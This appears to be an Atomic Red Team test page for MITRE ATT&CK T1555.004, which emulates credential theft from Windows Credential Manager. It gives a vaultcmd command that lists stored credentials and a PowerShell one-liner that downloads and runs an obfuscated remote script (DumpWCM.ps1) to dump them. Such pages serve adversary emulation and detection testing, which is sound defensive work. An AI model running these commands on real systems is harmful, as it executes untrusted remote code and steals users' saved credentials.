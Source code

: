 ```yaml
---
tags: [T1555_004, atomic_test]
filename: "[[T1555.004|T1555.004 - Credentials from Password Stores: Windows Credential Manager]]"
---
```

# T1555.004 - Credentials from Password Stores: Windows Credential Manager

## Atomic Test #1 - Access Saved Credentials via VaultCmd
List credentials currently stored in Windows Credential Manager via the native Windows utility vaultcmd.exe
Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos
https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/
https://medium.com/threatpunter/detecting-adversary-tradecraft-with-image-load-event-logging-and-eql-8de93338c16

**Supported Platforms:** Windows


**auto_generated_guid:** 9c2dd36d-5c8b-4b29-8d72-a11b0d5d7439






#### Attack Commands: Run with `command_prompt`! 


```cmd
vaultcmd /listcreds:"Windows Credentials"
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump
Loot local Credentials - Invoke-WCMDump technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fa714db1-63dd-479e-a58e-7b2b52ca5997






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/DumpWCM.ps1')
Invoke-WCMDump
```






<br/>
